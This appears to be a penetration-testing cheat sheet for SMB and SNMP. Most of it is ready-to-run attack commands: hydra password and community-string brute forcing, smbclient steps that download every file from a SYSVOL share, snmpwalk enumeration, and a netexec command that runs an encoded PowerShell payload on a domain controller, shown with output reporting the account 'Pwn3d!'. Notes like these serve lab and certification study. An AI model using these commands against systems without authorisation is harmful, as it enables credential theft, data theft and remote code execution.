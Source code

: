 Brute force using hydra:
`hydra -l $User -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt smb://$IP/ -V -I`   


### to get all files from an smb share
1. `smbclient \\\\$IP\\SYSVOL -U "domain.offsec\$username"`
2. `recurse on`
3. `prompt off`
4. `mget *`
5. `exit`
6. `find . -type f`
	1. This lists all the files you have downloaded into the directory you downloaded them into

### Command Execution with NXC:
- `nxc smb 10.10.10.10 -u Username -p Password -X 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AY...AKAApAA=='`
```
netexec smb 10.10.10.10 -u Username -p Password -X 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AY...AKAApAA=='
SMB         10.10.10.10   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:EXAMPLE.com) (signing:True) (SMBv1:False)
SMB         10.10.10.10   445    DC               [+] EXAMPLE.com\Username:Password (Pwn3d!)
SMB         10.10.10.10   445    DC               [-] WMIEXEC: Could not retrieve output file, it may have been detected by AV. If it is still failing, try the 'wmi' protocol or another exec method
```

## SNMP 
### Notes
SNMP is that it operates using community strings which means it sends passwords when it sends data. Can be sniffed with wireshark. 
Versions:
- SNMPv1 is all cleartext, so it is easy to grab the string
- SNMPv2 has some inherent weaknesses allowing it to be grabbed 2
- SNMPv3 is encrypted, but it can be brute forced.

There are 2 kinds of community strings: Public (Read Access) and Private (Write Access).

You can also brute-force the string with nmap or Hydra:
`nmap --script=snmp-brute $targetIP
`hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt snmp://$targetIP/

But you need community string first:

### onesixtyone
- `onesixtyone -c $(file containing community strings (public, private, manager)) -i $(file containing target ips)
- Note that there are seclists with common community strings
	- SecLists/Miscellaneous/wordlist-common-snmp-community-strings.txt
	- SecLists/Miscellaneous/snmp.txt
### snmpwalk
- `snmpwalk -c public -v1 -t 10 $targetIP`: where public is the community string (could be private or mamanger)
- `snmpwalk -c public -v1 192.168.50.151 $OIDString` - for specific info
